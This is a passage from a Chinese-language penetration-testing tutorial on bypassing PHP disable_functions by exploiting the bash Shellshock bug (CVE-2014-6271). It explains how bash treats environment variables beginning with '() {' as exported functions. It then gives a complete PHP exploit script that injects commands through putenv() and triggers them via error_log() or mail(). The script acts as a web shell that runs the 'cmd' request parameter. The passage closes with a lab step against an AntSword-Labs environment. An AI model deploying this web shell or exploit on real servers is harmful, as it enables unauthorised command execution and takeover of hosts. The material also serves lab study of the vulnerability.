 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312130111.png-water_print](assets/1699410109-bdb522af88b42a9b147d2b5c3f38997b.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312130111.png-water_print")

## [](#4-%E5%88%A9%E7%94%A8%E7%A0%B4%E5%A3%B3%E6%BC%8F%E6%B4%9E--shellshock)4 利用「破壳漏洞」- ShellShock

### [](#41-%E5%89%8D%E6%8F%90)4.1 前提

-   Linux 操作系统
-   `putenv()`、`mail()` 或 `error_log()` 函数可用
-   目标系统的 `/bin/bash` 存在 `CVE-2014-6271` 漏洞
-   `/bin/sh -> /bin/bash` sh 默认的 shell 是 bash

### [](#42-%E5%8E%9F%E7%90%86)4.2 原理

该方法利用的 bash 中的一个老漏洞，即 Bash Shellshock 破壳漏洞（CVE-2014-6271）。

在 Bash 中一种独有的方法来定义函数 , 即 : **通过环境变量来定义函数**。当某个环境变量的值以字符串 `() {` 的格式作为开头，那么该变量就会被当前 Bash 当作一个导出函数 ( `export function` ) , 该函数仅会在当前 Bash 的子进程中生效。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109011739693.png-water_print](assets/1699410109-9076970a80d66da740bde0f67cb84f99.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109011739693.png-water_print")

一般函数体内的代码不会被执行，但破壳漏洞会错误的将 `{}` 花括号外的命令进行执行。PHP 里的某些函数（例如：mail()、imap\_mail()）能调用 popen 或其他能够派生 bash 子进程的函数，可以通过这些函数来触发破壳漏洞 (CVE-2014-6271) 执行命令。

EXP 脚本：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```php<br><?php<br>function runcmd($c){<br>  $d = dirname($_SERVER["SCRIPT_FILENAME"]);<br>  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') \| function_exists('mail'))){<br>    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){<br>      $tmp=tempnam(sys_get_temp_dir(), 'as');<br>      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");<br>      if (function_exists('error_log')) {<br>        error_log("a", 1);<br>      }else{<br>        mail("a@127.0.0.1", "", "", "-bv");<br>      }<br>    }else{<br>      print("Not vuln (not bash)\n");<br>    }<br>    $output = @file_get_contents($tmp);<br>    @unlink($tmp);<br>    if($output!=""){<br>      print($output);<br>    }else{<br>      print("No output, or not vuln.");<br>    }<br>  }else{<br>    print("不满足使用条件");<br>  }<br>}<br><br>// runcmd("whoami"); // 要执行的命令<br>runcmd($_REQUEST["cmd"]); // ?cmd=whoami<br>?><br>``` |

### [](#43-%E5%88%A9%E7%94%A8)4.3 利用

同样利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 里的环境：[bypass\_disable\_functions/2](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/2)

尝试使用 `http://IP:18080/?ant=system('ls');` 执行失败。
